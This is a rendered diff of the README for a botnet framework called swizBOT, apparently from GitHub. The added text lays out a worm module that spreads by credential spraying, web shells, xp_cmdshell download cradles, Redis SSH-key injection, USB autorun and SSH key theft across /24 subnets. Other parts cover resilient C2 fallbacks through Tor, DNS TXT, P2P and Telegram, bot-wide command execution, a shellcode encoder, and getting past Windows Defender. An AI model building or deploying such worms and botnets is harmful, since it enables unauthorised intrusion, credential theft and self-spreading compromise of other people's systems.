

Before and after one commit to ekomsSavior/swizBOT, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -58,14 +65,34 @@ Jake Swiz (0xXyc) figured out the fix. He dropped the knowledge publicly when ev
+The worm module spreads across 15+ attack vectors simultaneously:
+
+| Vector | Method | Target |
+|--------|--------|--------|
+| SMB | Credential spraying + ADMIN$ deployment | Windows |
+| RDP | Credential spraying + remote task scheduling | Windows |
+| SSH | Brute force + key-based authentication | Linux/Unix |
+| USB | Auto-run infection + hidden files + shortcut spoofing | Windows |
+| Shared Drives | Network share infection + startup folder | Windows Networks |
+| Web | Directory traversal + file upload + web shells | Web Servers |
+| MySQL | Default credentials + UDF exploit | Databases |
+| MSSQL | xp_cmdshell + PowerShell download cradle | SQL Server |
+| PostgreSQL | COPY command to write web shells | PostgreSQL |
+| Redis | Config rewrite to inject SSH keys | Redis Servers |
+| MongoDB | Default admin credentials | MongoDB |
+| Elasticsearch | Groovy script remote code execution | Elasticsearch |
+| VNC | Default password spraying | VNC Servers |
+| Log Files | Password harvesting from config files | All Systems |
+| SSH Keys | Key theft + lateral movement | Linux/Unix |
+
+The worm scans /24 subnets, checks all vulnerable ports in parallel, and deploys via the first successful method.
 
 ---
 
 ## The Web UI
 
-swizBOT includes a **dark mode Web UI** that runs alongside the C2 server.
+swizBOT includes a dark mode Web UI that runs alongside the C2 server.
 
-**Access the Web UI:** `http://localhost:8080`
+Access the Web UI: `http://localhost:8080`
 
-**What you can do from the Web UI:**
-
+What you can do from the Web UI:
 - View all connected bots in real-time (WebSocket updates)
 - Click on any bot to select it
 - Send commands instantly with preset buttons
@@ -446,23 +467,17 @@ curl -k "https://localhost:8443/command?bot_id=*&cmd=exec&payload=whoami"
 When a bot runs, it attempts connections in this order:
 
 ```
-┌─────────────────────────────────────────────────────────────────┐
-│                     BOT CONNECTION FLOW                          │
-├─────────────────────────────────────────────────────────────────┤
-│                                                                  │
-│  1. Randomly shuffled HTTPS endpoints (5 domains)               │
-│         ↓ if all fail                                           │
-│  2. Tor endpoints (if tor daemon running)                       │
-│         ↓ if all fail                                           │
-│  3. DNS TXT lookup (c2-directive.yourdomain.com)                │
-│         ↓ if fail                                               │
-│  4. Peer-to-peer broadcast (UDP port 31337)                     │
-│         ↓ if fail                                               │
-│  5. Telegram dead drop channel                                  │
-│         ↓ if fail                                               │
-│  6. Local cache + exponential backoff (1h max)                  │
-│                                                                  │
-└─────────────────────────────────────────────────────────────────┘
+1. Randomly shuffled HTTPS endpoints (5 domains)
+         ↓ if all fail
+2. Tor endpoints (if tor daemon running)
+         ↓ if all fail
+3. DNS TXT lookup (c2-directive.yourdomain.com)
+         ↓ if fail
+4. Peer-to-peer broadcast (UDP port 31337)
+         ↓ if fail
+5. Telegram dead drop channel
+         ↓ if fail
+6. Local cache + exponential backoff (1h max)
 ```
 
 The bot continues retrying forever. If the primary C2 dies, it automatically fails over to backups.
@@ -616,7 +661,7 @@ python3 stager/encoder.py payload.bin stager/shellcode.bin --lfsr
 1. Check C2 is running: `netstat -tulnp | grep -E '8080|8443'`
 2. Check bot can reach C2: `curl -k https://your-c2-ip:8443/list`
 3. Check Windows Defender isn't blocking (add exclusion)
-4. Verify SSL certificate is accepted (use `InsecureSkipVerify: true` in bot)
+4. Verify SSL certificate is accepted
 
 ### Windows Defender catches loader.exe
 
````
Also changed, not shown: other parts of README.md (+110 -71 lines).
